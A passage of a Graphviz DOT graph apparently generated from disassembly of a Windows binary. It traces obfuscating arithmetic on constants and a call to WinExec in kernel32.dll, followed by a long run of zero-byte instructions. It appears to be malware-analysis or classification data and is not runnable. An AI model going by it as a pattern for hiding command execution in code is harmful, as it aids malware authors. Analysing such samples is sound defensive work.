a0x10001758movl_eax_ebx -> a0x1000175amovl_0x5db8UINT32_eax [color="#000000"];
a0x1000175amovl_0x5db8UINT32_eax -> a0x1000175fmull_ebx_eax [color="#000000"];
a0x1000175fmull_ebx_eax -> a0x10001761movl_eax__380ebp_ [color="#000000"];
a0x10001761movl_eax__380ebp_ -> a0x10001767movl_eax_ebx [color="#000000"];
a0x10001767movl_eax_ebx -> a0x10001769addl_ebx_eax [color="#000000"];
a0x10001769addl_ebx_eax -> a0x1000176bmovl_eax_ebx [color="#000000"];
a0x1000176bmovl_eax_ebx -> a0x1000176dsubl_ebx_eax [color="#000000"];
a0x1000176dsubl_ebx_eax -> a0x1000176fmovl_eax_ebx [color="#000000"];
a0x1000176fmovl_eax_ebx -> a0x10001771subl_ebx_eax [color="#000000"];
a0x10001771subl_ebx_eax -> a0x10001773movl_eax_ebx [color="#000000"];
a0x10001773movl_eax_ebx -> a0x10001775xorl_0x6203UINT32_ebx [color="#000000"];
a0x10001775xorl_0x6203UINT32_ebx -> a0x1000177bmovl_0x10ecUINT32_eax [color="#000000"];
a0x1000177bmovl_0x10ecUINT32_eax -> a0x10001780mull_ebx_eax [color="#000000"];
a0x10001780mull_ebx_eax -> a0x10001782movl_eax__384ebp_ [color="#000000"];
a0x10001782movl_eax__384ebp_ -> a0x10001788movl_eax_ebx [color="#000000"];
a0x10001788movl_eax_ebx -> a0x1000178axorl_0x4a82UINT32_ebx [color="#000000"];
a0x1000178axorl_0x4a82UINT32_ebx -> a0x10001790movl_ebx_eax [color="#000000"];
a0x10001790movl_ebx_eax -> a0x10001792addl_ebx_eax [color="#000000"];
a0x10001792addl_ebx_eax -> a0x10001794movl_eax_ebx [color="#000000"];
a0x10001794movl_eax_ebx -> a0x10001796xorl_0x6324UINT32_ebx [color="#000000"];
a0x10001796xorl_0x6324UINT32_ebx -> a0x1000179cmovl_0x3423UINT32_eax [color="#000000"];
a0x1000179cmovl_0x3423UINT32_eax -> a0x100017a1mull_ebx_eax [color="#000000"];
a0x100017a1mull_ebx_eax -> a0x100017a3movl_eax__388ebp_ [color="#000000"];
a0x100017a3movl_eax__388ebp_ -> a0x100017a9movl_eax_ebx [color="#000000"];
a0x100017a9movl_eax_ebx -> a0x100017abpushl_0x1UINT8 [color="#000000"];
a0x100017abpushl_0x1UINT8 -> a0x100017adleal__255ebp__eax [color="#000000"];
a0x100017adleal__255ebp__eax -> a0x100017b3pushl_eax [color="#000000"];
a0x100017b3pushl_eax -> a0x100017b4call_0x100018c0 [color="#000000"];
a0x100017b4call_0x100018c0 -> a0x100018c0jmp_WinExec_kernel32_dll [color="#000000"];
a0x100018c0jmp_WinExec_kernel32_dll -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x100017b9addl_0x4a0aUINT32_ebx [color="#000000"];
a0x100017b9addl_0x4a0aUINT32_ebx -> a0x100017bfxorl_0x3103UINT32_ebx [color="#000000"];
a0x100017bfxorl_0x3103UINT32_ebx -> a0x100017c5movl_ebx_eax [color="#000000"];
a0x100017c5movl_ebx_eax -> a0x100017c7xorl_ebx_eax [color="#000000"];
a0x100017c7xorl_ebx_eax -> a0x100017c9movl_eax_ebx [color="#000000"];
a0x100017c9movl_eax_ebx -> a0x100017cbmull_ebx_eax [color="#000000"];
a0x100017cbmull_ebx_eax -> a0x100017cdmovl_eax__392ebp_ [color="#000000"];
a0x100017cdmovl_eax__392ebp_ -> a0x100017d3movl_eax_ebx [color="#000000"];
a0x100017d3movl_eax_ebx -> a0x100017d5movl_0x6b6fUINT32_eax [color="#000000"];
a0x100017d5movl_0x6b6fUINT32_eax -> a0x100017damull_ebx_eax [color="#000000"];
a0x100017damull_ebx_eax -> a0x100017dcmovl_eax__396ebp_ [color="#000000"];
a0x100017dcmovl_eax__396ebp_ -> a0x100017e2movl_eax_ebx [color="#000000"];
a0x100017e2movl_eax_ebx -> a0x100017e4subl_ebx_eax [color="#000000"];
a0x100017e4subl_ebx_eax -> a0x100017e6movl_eax_ebx [color="#000000"];
a0x100017e6movl_eax_ebx -> a0x100017e8subl_0x2d07UINT32_ebx [color="#000000"];
a0x100017e8subl_0x2d07UINT32_ebx -> a0x100017eemovl_ebx_eax [color="#000000"];
a0x100017eemovl_ebx_eax -> a0x100017f0mull_ebx_eax [color="#000000"];
a0x100017f0mull_ebx_eax -> a0x100017f2movl_eax__400ebp_ [color="#000000"];
a0x100017f2movl_eax__400ebp_ -> a0x100017f8movl_eax_ebx [color="#000000"];
a0x100017f8movl_eax_ebx -> a0x100017faxorl_0x2e2fUINT32_ebx [color="#000000"];
a0x100017faxorl_0x2e2fUINT32_ebx -> a0x10001800subl_0x1ac2UINT32_ebx [color="#000000"];
a0x10001800subl_0x1ac2UINT32_ebx -> a0x10001806movl_ebx_eax [color="#000000"];
a0x10001806movl_ebx_eax -> a0x10001808addl_ebx_eax [color="#000000"];
a0x10001808addl_ebx_eax -> a0x1000180amovl_eax_ebx [color="#000000"];
a0x1000180amovl_eax_ebx -> a0x1000180cmull_ebx_eax [color="#000000"];
a0x1000180cmull_ebx_eax -> a0x1000180emovl_eax__404ebp_ [color="#000000"];
a0x1000180emovl_eax__404ebp_ -> a0x10001814movl_eax_ebx [color="#000000"];
a0x10001814movl_eax_ebx -> a0x10001816subl_ebx_eax [color="#000000"];
a0x10001816subl_ebx_eax -> a0x10001818movl_eax_ebx [color="#000000"];
a0x10001818movl_eax_ebx -> a0x1000181axorl_eax_eax [color="#000000"];
a0x1000181axorl_eax_eax -> a0x1000181cincl_eax [color="#000000"];
a0x1000181cincl_eax -> a0x1000181djmp_0x1000182e [color="#000000"];
a0x1000181djmp_0x1000182e -> a0x1000182epopl_edi [color="#000000"];
a0x1000182epopl_edi -> a0x1000182fpopl_esi [color="#000000"];
a0x1000182fpopl_esi -> a0x10001830popl_ebx [color="#000000"];
a0x10001830popl_ebx -> a0x10001831leave_ [color="#000000"];
a0x10001831leave_ -> a0x10001832ret_0xcUINT16 [color="#000000"];
a0x10001832ret_0xcUINT16 -> a0x100011b6popl_edi [color="#000000"];
a0x100011b6popl_edi -> a0x100011b7popl_esi [color="#000000"];
a0x100011b7popl_esi -> a0x100011b8popl_ebx [color="#000000"];
a0x100011b8popl_ebx -> a0x100011b9leave_ [color="#000000"];
a0x100011b9leave_ -> a0x100011baret_0xcUINT16 [color="#000000"];
a0x100011baret_0xcUINT16 -> a0x7c8000c0nop_ [color="#000000"];
a0x7c8000c0nop_ -> a0x7c8000c1call_0x63d7f9f4 [color="#000000"];
a0x7c8000c1call_0x63d7f9f4 -> a0x63d7f9f4addb_al_eax_ [color="#000000"];
a0x63d7f9f4addb_al_eax_ -> a0x63d7f9f6addb_al_eax_ [color="#000000"];
a0x63d7f9f6addb_al_eax_ -> a0x63d7f9f8addb_al_eax_ [color="#000000"];
a0x63d7f9f8addb_al_eax_ -> a0x63d7f9faaddb_al_eax_ [color="#000000"];
a0x63d7f9faaddb_al_eax_ -> a0x63d7f9fcaddb_al_eax_ [color="#000000"];
a0x63d7f9fcaddb_al_eax_ -> a0x63d7f9feaddb_al_eax_ [color="#000000"];
a0x63d7f9feaddb_al_eax_ -> a0x63d7fa00addb_al_eax_ [color="#000000"];
a0x63d7fa00addb_al_eax_ -> a0x63d7fa02addb_al_eax_ [color="#000000"];
a0x63d7fa02addb_al_eax_ -> a0x63d7fa04addb_al_eax_ [color="#000000"];
a0x63d7fa04addb_al_eax_ -> a0x63d7fa06addb_al_eax_ [color="#000000"];
a0x63d7fa06addb_al_eax_ -> a0x63d7fa08addb_al_eax_ [color="#000000"];
a0x63d7fa08addb_al_eax_ -> a0x63d7fa0aaddb_al_eax_ [color="#000000"];
a0x63d7fa0aaddb_al_eax_ -> a0x63d7fa0caddb_al_eax_ [color="#000000"];
a0x63d7fa0caddb_al_eax_ -> a0x63d7fa0eaddb_al_eax_ [color="#000000"];
a0x63d7fa0eaddb_al_eax_ -> a0x63d7fa10addb_al_eax_ [color="#000000"];
a0x63d7fa10addb_al_eax_ -> a0x63d7fa12addb_al_eax_ [color="#000000"];
a0x63d7fa12addb_al_eax_ -> a0x63d7fa14addb_al_eax_ [color="#000000"];
a0x63d7fa14addb_al_eax_ -> a0x63d7fa16addb_al_eax_ [color="#000000"];
a0x63d7fa16addb_al_eax_ -> a0x63d7fa18addb_al_eax_ [color="#000000"];
a0x63d7fa18addb_al_eax_ -> a0x63d7fa1aaddb_al_eax_ [color="#000000"];
a0x63d7fa1aaddb_al_eax_ -> a0x63d7fa1caddb_al_eax_ [color="#000000"];
a0x63d7fa1caddb_al_eax_ -> a0x63d7fa1eaddb_al_eax_ [color="#000000"];
a0x63d7fa1eaddb_al_eax_ -> a0x63d7fa20addb_al_eax_ [color="#000000"];
a0x63d7fa20addb_al_eax_ -> a0x63d7fa22addb_al_eax_ [color="#000000"];
a0x63d7fa22addb_al_eax_ -> a0x63d7fa24addb_al_eax_ [color="#000000"];
a0x63d7fa24addb_al_eax_ -> a0x63d7fa26addb_al_eax_ [color="#000000"];
a0x63d7fa26addb_al_eax_ -> a0x63d7fa28addb_al_eax_ [color="#000000"];
a0x63d7fa28addb_al_eax_ -> a0x63d7fa2aaddb_al_eax_ [color="#000000"];
a0x63d7fa2aaddb_al_eax_ -> a0x63d7fa2caddb_al_eax_ [color="#000000"];
a0x63d7fa2caddb_al_eax_ -> a0x63d7fa2eaddb_al_eax_ [color="#000000"];
a0x63d7fa2eaddb_al_eax_ -> a0x63d7fa30addb_al_eax_ [color="#000000"];
a0x63d7fa30addb_al_eax_ -> a0x63d7fa32addb_al_eax_ [color="#000000"];
a0x63d7fa32addb_al_eax_ -> a0x63d7fa34addb_al_eax_ [color="#000000"];
a0x63d7fa34addb_al_eax_ -> a0x63d7fa36addb_al_eax_ [color="#000000"];
a0x63d7fa36addb_al_eax_ -> a0x63d7fa38addb_al_eax_ [color="#000000"];
a0x63d7fa38addb_al_eax_ -> a0x63d7fa3aaddb_al_eax_ [color="#000000"];
a0x63d7fa3aaddb_al_eax_ -> a0x63d7fa3caddb_al_eax_ [color="#000000"];
a0x63d7fa3caddb_al_eax_ -> a0x63d7fa3eaddb_al_eax_ [color="#000000"];
a0x63d7fa3eaddb_al_eax_ -> a0x63d7fa40addb_al_eax_ [color="#000000"];
a0x63d7fa40addb_al_eax_ -> a0x63d7fa42addb_al_eax_ [color="#000000"];
a0x63d7fa42addb_al_eax_ -> a0x63d7fa44addb_al_eax_ [color="#000000"];
a0x63d7fa44addb_al_eax_ -> a0x63d7fa46addb_al_eax_ [color="#000000"];
a0x63d7fa46addb_al_eax_ -> a0x63d7fa48addb_al_eax_ [color="#000000"];
a0x63d7fa48addb_al_eax_ -> a0x63d7fa4aaddb_al_eax_ [color="#000000"];
a0x63d7fa4aaddb_al_eax_ -> a0x63d7fa4caddb_al_eax_ [color="#000000"];
a0x63d7fa4caddb_al_eax_ -> a0x63d7fa4eaddb_al_eax_ [color="#000000"];
a0x63d7fa4eaddb_al_eax_ -> a0x63d7fa50addb_al_eax_ [color="#000000"];
a0x63d7fa50addb_al_eax_ -> a0x63d7fa52addb_al_eax_ [color="#000000"];
a0x63d7fa52addb_al_eax_ -> a0x63d7fa54addb_al_eax_ [color="#000000"];
a0x63d7fa54addb_al_eax_ -> a0x63d7fa56addb_al_eax_ [color="#000000"];
a0x63d7fa56addb_al_eax_ -> a0x63d7fa58addb_al_eax_ [color="#000000"];
a0x63d7fa58addb_al_eax_ -> a0x63d7fa5aaddb_al_eax_ [color="#000000"];
}
